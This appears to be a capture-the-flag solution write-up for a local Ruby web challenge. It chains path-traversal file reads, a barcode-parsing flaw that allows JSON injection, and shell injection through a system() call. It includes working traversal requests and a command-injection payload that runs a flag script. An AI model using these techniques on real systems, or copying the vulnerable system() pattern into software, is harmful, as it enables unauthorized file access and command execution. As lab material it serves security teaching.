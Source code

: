 First, browse the application. You should be able to create an error:

```
$ curl 'http://localhost:8080/display?name=test'
Error in script /app/server.rb: No such file or directory @ rb_sysopen - /app/data/test
```

Note that has a `image/jpeg` content-type, so it might confuse the browser.

That issue grants access to two primitives:

a) Read any file via path traversal

b) The full path to the server

For example:

```
$ curl -s 'http://localhost:8080/display?name=../server.rb' | head -n20
require 'json'
require 'sinatra'
require 'pp'
require 'singlogger'
require 'open3'

::SingLogger.set_level_from_string(level: ENV['log_level'] || 'debug')
LOGGER = ::SingLogger.instance()

# Ideally, we set all these in the Dockerfile
set :bind, ENV['HOST'] || '0.0.0.0'
set :port, ENV['PORT'] || '8080'

SAFER_STREETS_PATH = ENV['SAFER_STREETS'] || '/app/safer-streets'

SCRIPT = File.expand_path(__FILE__)

LOGGER.info("Checking for required binaries...")
if File.exist?(SAFER_STREETS_PATH)
  LOGGER.info("* Found `safer-streets` binary: #{ SAFER_STREETS_PATH }")
[...]
```

You can grab the `safer-streets` binary as well:

```
$ curl -s 'http://localhost:8080/display?name=../../../app/safer-streets' | file -
/dev/stdin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fa512a55e0fbc8c4ad80483379826183f29ce161, for GNU/Linux 3.2.0, with debug_info, not stripped
```

Inspecting the Ruby code shows an shell-injection issue if you control the output of `safer-streets`:

```
system("/usr/bin/report-infraction --node='#{result['node']}' --img='#{photo}'")
```

You can reverse or mess with the binary to discover that it's looking for an image file parameter:

```
$ safer-streets upc.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104"
}
```

But it won't work on non-UPC codes. I generated a barcode using [Code128](https://github.com/fhunleth/code128), then tried to decode it:

```
$ ./code128png exploit.png 'TEST CODE128'

$ file exploit.png 
exploit.png: PNG image data, 176 x 40, 1-bit grayscale, non-interlaced

$ safer-streets ./exploit.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
Invalid plate type: CODE-128!
```

But the logic is actually faulty; here's the C code:

```c
    zbar_symbol_type_t typ = zbar_symbol_get_type(sym);

    for (; sym; sym = zbar_symbol_next(sym)) {
      // unsigned len         = zbar_symbol_get_data_length(sym);
      if (typ == ZBAR_PARTIAL)
        continue;

      if(strcmp(zbar_get_symbol_name(typ), "EAN-13")) {
        fprintf(stderr, "Invalid plate type: %s!\n", zbar_get_symbol_name(typ));
        exit(1);
      }

      printf("%s", zbar_symbol_get_data(sym));
    }
```

Note that the `typ` check is outside the loop, which means if you have multiple barcodes they'll get concatenated (I hinted at that in one of the preview images by having two UPC codes) (it also needs to be bigger):

```
$ mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png

$ ./safer-streets combined.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104TESTCODE128"
}
```

Using that technique, you can do some JSON injection to add an extra node field:

```
$ ./code128png exploit.png 'test", "node": "hi' && mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png
```

Which will mess up the parsing:

```
$ ./safer-streets combined.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104test","node":"hi"
}
```

With `jq`, note that we can control `"hi"`:

```
$ ./safer-streets combined.png  | jq
{
  "node": "hi",
  "speed": "-1",
  "plate": "0123456789104test"
}
```

That, with the shell injection we mentioned above, we can create ourselves a payload:

```
./code128png exploit.png "test\", \"node\": \"hi'; /home/ctf/print-flag > /tmp/flag.txt; #" && mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png
```

Then submit that and grab the flag:

```
$ curl -F "photo=@./combined.png" http://localhost:8080/upload
$ curl 'http://localhost:8080/display?name=../../../../tmp/flag.txt'
CTF{show-me-your-best-images}
```
